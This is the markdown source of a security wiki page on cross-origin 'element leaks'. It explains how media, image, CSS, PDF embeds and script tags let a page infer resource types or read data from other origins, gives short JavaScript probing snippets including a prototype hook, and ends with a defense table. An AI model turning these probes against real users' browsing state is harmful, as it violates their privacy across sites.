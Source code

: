 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
]
menu = "main"
weight = 2
+++

Some HTML Elements leak data cross origin.

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement) leaks the media `duration` and the `buffered` times.
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) leaks the `videoHeight` and `videoWidth` 
  some browsers may also have `webkitVideoDecodedByteCount`, `webkitAudioDecodedByteCount` and `webkitDecodedFrameCount`
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality) leaks the `totalVideoFrames`.
- [HTMLImageElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement) leaks the `height` and `width` but if the image is invalid they will be 0 
  and [decode()](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode) will get rejected.

Some HTML Elements have properties that predictability change when a valid resource is used this can be checked to detect what the resource type is.
```javascript
async function getType(url) {
    // Detect if resource is audio or video
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // Detect if resource is an image
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## Abusing CORB
[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) is a feature of Chrome that makes reposnses empty if the wrong content type is used.
This means that if the type is wrong its not cached.
A ifCached function can be found at [Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}})
```javascript
async function isType(url, type = "script") {
  let error = false;
  // Purge url
  await ifCached(url, true);
  // Attempt to load resource
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // Wait for it to be cached if its allowed by CORB
  await new Promise(resolve => setTimeout(resolve, 500));
  // Cleanup
  document.head.removeChild(e);
  // Fix for "images" that get blocked differently.
  if (error) return false
  return ifCached(url);
}
```

## Abusing getComputedStyle
[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle) can be used to leak CSS style sheets.  
This function just checks if there has been a style appled to the body.
```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```
## PDF
There are [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113) that allow some control over the content such as `zoom`, `view`, `page`, `toolbar`.  
For chrome a PDF can be detected using [frame counting]({{< ref "/docs/attacks/frame-counting.md" >}}) because an `embed` is used internally.
```javascript
async function isPDF(url) {
    let w = open(url);
    await new Promise(resolve => setTimeout(resolve, 500));
    let result = (w.length === 1);
    w.close();
    return result;
}
```
{{< hint warning  >}} There will be false positives if the page has other embeds.{{< /hint >}}

## Script tag
Leaks the contents of a cross origin script during execution.  
The contents of a function can be leaked using `.toString()` and variables may also be assigned to the `window`.  
Even if the data is not acessible from the window its still possible to hook a function that it uses.  
```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```
{{< hint tip >}} A paper was made using this attack [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf) {{< /hint >}}

## When Javascript cant be used
If the `error` event cant be used [fallback content](https://html.spec.whatwg.org/multipage/dom.html#fallback-content) might be an alternative.
This seems to send a request to [http.cat](https://http.cat) when theirs a 404 on [example.com](https://example.com).
```html
<object data="https://example.com/404">
<img loading="lazy" src="https://http.cat/200">
</object>
```
{{< hint info >}} Unlike other browsers, Firefox does not defer Lazy loading when JavaScript is disabled as an anti-tracking measure. {{< /hint >}}

## Defense

|       Attack Alternative        | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                          |
| :-----------------------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-----------------------------------------------------------------------------------------------------------------------------------------------------: |
|   Type leaks    |                                         ✔️                                          |                          ❌                          |                                 ❌                                 |                                                                                | |
